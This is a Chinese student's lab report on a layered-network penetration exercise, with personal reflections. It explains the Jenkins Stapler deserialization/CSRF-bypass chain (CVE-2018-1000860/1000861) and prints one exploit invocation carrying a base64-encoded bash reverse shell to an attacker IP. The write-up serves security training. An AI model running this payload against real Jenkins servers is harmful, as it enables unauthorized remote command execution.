# 个人实验结果报告

---

### 实验环境
- 主机系统:Kali Linux

### 实验成果
- 完成对DMZ的攻击(见下文)
```
完成了五个靶标的获取
```





- 完成对第二层内网Jenkins漏洞的攻击(见下文)
```
任务内容：在redis漏洞；cve-2022-0543的容器中对下一层内网，进行扫描，找到靶机，并将其攻陷

1. 靶标访问入口，通过metasploit中的tcp扫描发现内网的主机
```
  
  
  
  ---
```
  
  ###### 2. 漏洞原理简述
  Jenkins 2.153 及更早版本、LTS 2.138.3 及更早版本使用的 Stapler Web 框架中存在一个代码执行漏洞，该漏洞位于 `stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java` 中，允许攻击者通过访问构建的 URL 来调用 Java 对象上的某些方法，而这些 URL 并不打算以这种方式调用。
  该漏洞是一个高危的**反序列化远程代码执行（RCE）**漏洞，核心问题在于：
```
  
  
```
  - 漏洞链触发 
    由两个CVE共同构成完整攻击链：
    1. CVE-2018-1000860: Stapler框架的CSRF防护绕过漏洞（通过`__stapler_bypass_crumb`参数）。
    2. CVE-2018-1000861: Stapler路由机制中的**不安全反序列化**漏洞。
  - 关键缺陷点  
    Jenkins的Stapler框架在解析HTTP请求时，允许攻击者通过特殊构造的参数名（如 `[descriptor].class`）传递**序列化的Java对象**。由于缺乏安全的反序列化验证：
    - 攻击者可注入包含恶意逻辑的 `org.codehaus.groovy.runtime.MethodClosure` 对象。
    - 该对象在反序列化时触发 `MethodClosure#call()` 方法，最终通过Groovy动态执行特性执行任意命令。
  - 攻击过程
     使用`python2 exp.py http://192.170.84.2:8080/ "bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNC8xMjMzMyAwPiYxCg == } | {base64, -d} | {bash, -i}"`
    嵌套的Base64编码反弹Shell指令代码进行攻击，他的功能是建立反向TCP连接到攻击者IP 192.168.56.104 的 12333 端口
```
```
3. 漏洞存在性检测
DNSLOG回显确认漏洞存在
通过上述的攻击代码编写嵌套的shell命令，使靶机区访问dnslog网址
4.漏洞利用效果检测
建立远程网络代理
连通性测试
使攻击机对靶机进行反弹shell攻击
监听得到shell，获取flag
```






---

# 个人实践心得体会
我主要负责两个核心部分：**DMZ区域的完整攻击链构建**以及**三层内网环境中从第一层到第二层的渗透攻击**。其中，第二阶段的自设三层内网攻击任务对我的技术成长产生了深远影响，以下是我在过程中的主要收获：

### 一、核心贡献与技术突破
#### 独立完成未知漏洞攻防（主要贡献）
在第二阶段的三层内网攻击任务中，我首次在没有引路人的情况下，独立完成了对未知漏洞的完整攻击链构建：

- 从零开始进行信息收集，深入分析漏洞成因（包括底层机制和触发条件）
- 研究漏洞利用方式，开发了针对性的攻击向量
- 最终成功实现对第二层内网的权限突破

这项工作不仅考验技术能力，更锻炼了从黑盒状态还原漏洞全貌的系统性思维，是我认为最具技术含量的突破。

#### 攻击路径设计
- 在无metasploit使用的情况下，使用第一层内网原生容器进行攻击（因为metasploit容器崩溃），原生容器不易崩溃，实验更加稳定
- 在有metasploit使用的状况下，进行攻击

### 二、印象深刻的Bug与解决方案
#### Metasploit容器静默崩溃问题（关键Bug）
- 在初期方案中遭遇最棘手的Bug：
- Metasploit容器会随机崩溃且无错误日志（平均每30分钟发生1次），就是metasploit中虽然容易依旧存活，但是在连通性测试中已经不再连通了

#### 崩溃导致所有持久化连接中断，攻击链不可靠
解决方案是：改用原生Shell持久化连接替代Metasploit会话

### 三、协作带来的升级
与陈思源同学的深度合作为攻击方案带来质的飞跃：

####  多维攻击视角的融合

- 我的初始方案：基于漏洞本身的攻击链

- 陈思源的补充方案：爆破+权限组合攻击

### 四、核心成长与认知突破
漏洞认知的维度扩展
#### 从单纯利用漏洞升级到系统化思考：

- 漏洞本身的攻击面
- 配套设施的缺陷
- 环境交互产生的衍生漏洞

---

本次经历让我深刻体会到：真正的安全攻防不是工具的使用，而是面对未知系统时，从混沌中建立认知框架的能力。